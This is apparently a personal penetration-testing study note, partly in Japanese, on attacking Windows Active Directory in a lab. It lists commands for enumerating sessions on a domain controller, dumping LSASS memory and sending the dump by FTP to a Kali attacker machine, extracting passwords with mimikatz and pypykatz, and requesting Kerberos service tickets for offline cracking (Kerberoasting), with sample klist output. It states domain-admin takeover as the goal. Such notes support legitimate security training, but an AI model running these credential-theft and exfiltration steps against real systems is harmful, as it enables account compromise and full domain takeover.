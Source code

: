 ```set user```
## Show All Activated Sessions

ドメインコントローラ DC01 上のアクティブなセッションを取得してみましょう。

```PS> Get-NetSession -ComputerName dc01```

 (Probably, dc01 is Doamin Controller (it's ok not to specify "dc01"))

（Domain Admins の一人を侵害することに成功すれば、最終的にはドメイン全体を乗っ取ることができます)

> グループメンバーシップを列挙し、ユーザが現在ログインしているマシンを特定できるよ うになったので、ユーザアカウント侵害を開始するために必要な基本スキルを身につける ことができました。最終目的はドメイン管理者権限の獲得です。


# LSASS Attack

## Using TaskManager
On Windows machine (that's to say open the Windows OS by remote desktop):
 start -> WindowsSystem -> taskmanager -> Details -> right click the lsass.exe -> Create dump file (e.g. C:\Users\admin\AppData\Local\Temp\lsass.DMP)

At command prompt:
```> ftp <kali IP address>
ftp> bin
ftp> put lsass.DMP
```

On Kali terminal:

```$ pypykatz lsa minidump lsass.DMP```

## Usin Mimikatz
 
```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

[*]Try both TaksManager way and Mimikatz way. They probably result in different.

# Service Account Attacks (passwords of http, mysql, ftp...)
Abusing the SPN's ticket and cracking those service's accout passwords.

step.1: Get Service Tickets

```
PS> Add-Type -AssemblyName System.IdentityModel
PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/xor-app23.xor.com:1433'
(PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com')
```

step.2: After the ticket was issued and loaded to memory, check it with `klist` command:

```
PS C:\> klist
#2>     Client: xor-app59$ @ XOR.COM
        Server: MSSQLSvc/xor-app23.xor.com:1433 @ XOR.COM
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 10/29/2021 7:23:46 (local)
        End Time:   10/29/2021 14:39:00 (local)
        Renew Time: 11/5/2021 4:39:00 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)